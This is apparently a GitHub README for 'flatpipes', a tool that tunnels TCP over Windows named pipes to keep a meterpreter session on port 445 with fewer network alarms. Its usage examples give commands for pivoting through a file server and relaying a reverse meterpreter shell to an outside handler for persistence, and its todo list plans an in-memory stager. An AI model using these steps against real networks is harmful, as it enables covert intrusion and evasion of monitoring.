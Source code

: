 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help with multiple scenarios, let's list some of the them:

#### TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server): *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*
> The above will create two pipes "pipename_s2c" & "pipename_c2s" and as soon as negotiation is ok will open a TCP listener at 10001

On the 2nd Windows host (pipe client): *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001*
> Here we just connect to the pipe(s) created earlier on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver: *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*
> The above will create our pipes for "IPC", and as soon as we connect, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes

On the jumphost: *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*
> The above will PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22

Just ssh on 127.0.0.1 22 and you are through the town portal

#### Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver: *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*
> Same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter

On the jumphost: *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*
> We connect to the MS Fileserver and immediately connect to the handler. 

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---
I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<dl>
  <dt>Todo</dt>
  <dd>Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)</dd>
  <dd>"Monkey patch" the above stager to change port on the fly (on hex)</dd>
  <dd>Think any other useful scenarios</dd> 
</dl>
